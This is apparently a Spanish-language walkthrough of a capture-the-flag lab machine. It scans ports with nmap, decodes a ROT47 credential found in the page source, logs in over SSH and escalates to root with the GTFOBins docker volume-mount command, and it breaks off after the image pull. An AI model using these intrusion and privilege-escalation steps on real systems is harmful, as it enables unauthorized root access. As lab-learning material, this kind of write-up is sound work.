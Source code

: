 1. Enumeración de puertos abiertos 
```
nmap -p- --open --min-rate 5000 -n -Pn -vvv -sCSV 192.168.18.85 -oN scanPorts
```

Impresión 
```
Discovered open port 22/tcp on 192.168.18.85
Discovered open port 80/tcp on 192.168.18.85
```

2. Dentro de la pagina `http://192.168.18.85`, existe una credencia encriptada
```
D92:=6?5C2
4J36CDA=@:E`
```

3. Con `Ctrl-u` dentro de la pagina, en la línea 126 se encuentra el siguiente comentario
```
<!----------ROT47---------->
```

4. Utilizando `dcoder.com` en cifrado `rot47` para las credenciales
```
shailendra
cybersploit1
```

5. Conectarse por vía `ssh`
```
ssh shailendra@192.168.18.85
```

6. Dentro de la ruta `/home/shailendra/` hay una pista con el archivo `hint.txt` 
```
docker
```

7. Buscar dentro de `GTFObins` la palabra `docker` para escalar privilegios. Entre una de las opciones se encuentra el siguiente comando
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Este comando crea un volumen `-v` que se va amontar en el directorio `/mnt` y que al finalizar el proceso todo se elimine `--rm`, también monta una consola interactiva `-i` en la imagen `-t alpine`, cambia el directorio raiz del proceso actual y subproceso al directorio `/mnt` e indica que la consola interactiva sea una `sh` .

Impresión 
```
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
```
